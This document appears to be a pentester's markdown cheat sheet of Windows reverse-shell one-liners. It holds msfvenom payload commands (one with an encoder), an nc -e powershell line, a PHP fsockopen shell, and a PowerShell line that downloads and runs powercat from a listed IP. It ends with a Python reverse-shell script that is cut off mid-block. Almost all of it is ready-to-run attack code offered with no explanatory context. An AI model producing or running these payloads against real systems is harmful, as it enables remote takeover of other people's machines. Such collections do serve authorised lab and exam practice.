 on my kali (ARM) for arch x86_64 windows machine
```
x86_64-w64-mingw32-gcc exploit.c -o exploit.exe
```

### revers shell

msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.221 LPORT=9999 -f exe -o sys.exe

msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.177 LPORT=242 -e x86/shikata_ga_nai -f exe -o shell.exe
```

nc
```
nc.exe 192.168.45.160 4444 -e powershell
```

php
```
php -r '$sock=fsockopen("192.168.45.160",4444);system("powershell <&3 >&3 2>&3");'
```

powershell
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178:21/powercat.ps1');powercat -c 192.168.45.178 -p 445 -e powershell"
```

python
```
import os,socket,subprocess,threading;
def s2p(s, p):

    while True:
        data = s.recv(1024)
        if len(data) > 0:

            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:

        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.4",9001))

p=subprocess.Popen(["powershell"], stdout=subprocess.PIPE,
stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()

except KeyboardInterrupt:
```